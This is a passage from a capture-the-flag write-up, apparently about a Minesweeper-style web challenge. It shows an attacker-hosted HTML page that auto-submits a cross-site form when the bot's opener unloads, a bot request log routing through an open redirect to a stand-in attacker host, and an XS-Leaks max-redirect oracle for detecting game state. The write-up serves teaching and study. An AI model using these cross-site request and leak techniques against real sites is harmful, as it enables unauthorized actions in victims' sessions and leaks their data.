 As such, this is what our `persist.html` looks like now, making a guess on tile 0 (the top-left corner)
after the bot navigates away from its opener:

```html
<form id="form-guess" method="post" action="https://gosweeper.example/guess" target="_blank">
  <input type="hidden" name="guess" value="0" />
</form>

<script>
  window.opener.onunload = () => {
    document.getElementById('form-guess').submit()
    // TODO
  }

</script>
```

Again, looking at the headless Chromium bots reveals that this is working as intended, with the
request to `/guess` being sent immediately after the one sent to `/board?xray=1`.

```hl_lines=10-11
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

The only thing left now is to detect whether there is still an active game after making
the guess.
Since we cannot use `fetch`, given that it would not include a cookie, we have to rely
on opening a new tab once again.
Here, an interesting behaviour emerges: if we reach the maximum number of redirects,
the window's origin will be `about:blank`, which is accessible from any origin;
otherwise, the origin will be `https://gosweeper.example` and we will not be able
to access any content of the window.
Therefore, to know if a redirect is successful or not, we just have to poll
the `w.window` object and check if it becomes null; if it does, we have lost access
to the window reference, meaning the redirect was successful (and there is no bomb).

In order to achieve the 19 redirects (well, 18, since opening the new tab also counts
as a redirect, apparently) before the final destination, we can use
[XSLeaks' own demo service][max-redirect-demo], which provides us with the
`https://xsinator.com/testcases/files/maxredirect.php?n=18&url=<url>` endpoint
(I've tried creating my own with Caddy, but it ended up not being reliable in the
challenge's instance).
